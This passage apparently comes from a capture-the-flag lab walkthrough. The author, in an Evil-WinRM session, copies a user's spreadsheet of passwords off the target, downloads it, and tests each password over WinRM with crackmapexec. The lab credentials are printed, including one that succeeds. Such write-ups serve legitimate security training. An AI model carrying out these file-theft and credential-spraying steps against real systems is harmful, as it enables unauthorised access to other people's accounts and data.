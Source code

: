         Directory: C:\users\maria\desktop

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/26/2021   8:13 AM           6144 Engines.xls



There's a single file on the desktop. I'll copy it to `programdata` and
download it:



    *Evil-WinRM* PS C:\programdata> echo "copy \users\maria\desktop\Engines.xls \programdata\" > cmd.ps1  
    *Evil-WinRM* PS C:\programdata> ls Engines.xls

        Directory: C:\programdata

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       10/26/2021   8:13 AM           6144 Engines.xls
    *Evil-WinRM* PS C:\programdata> download C:\programdata\Engines.xls Engines.xls
    Info: Downloading C:\programdata\Engines.xls to Engines.xls

                                                                 
    Info: Download successful!



### Engines.xls

The Excel file opens in LibreOffice `Calc` in my Linux VM, and it
includes a list of machines and passwords for maria:

![](/img/image-20220228064648956.png)

### WinRM

[crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) can quickly
test each password for maria. I'll save them into a text time, and run
it:



    oxdf@hacky$ crackmapexec winrm 10.10.11.132 -u maria -p maria-pass 
    SMB         10.10.11.132    5985   NONE             [*] None (name:10.10.11.132) (domain:None)
    HTTP        10.10.11.132    5985   NONE             [*] http://10.10.11.132:5985/wsman
    WINRM       10.10.11.132    5985   NONE             [-] None\maria:d34gb8@
    WINRM       10.10.11.132    5985   NONE             [-] None\maria:0de_434_d545
    WINRM       10.10.11.132    5985   NONE             [+] None\maria:W3llcr4ft3d_4cls (Pwn3d!)
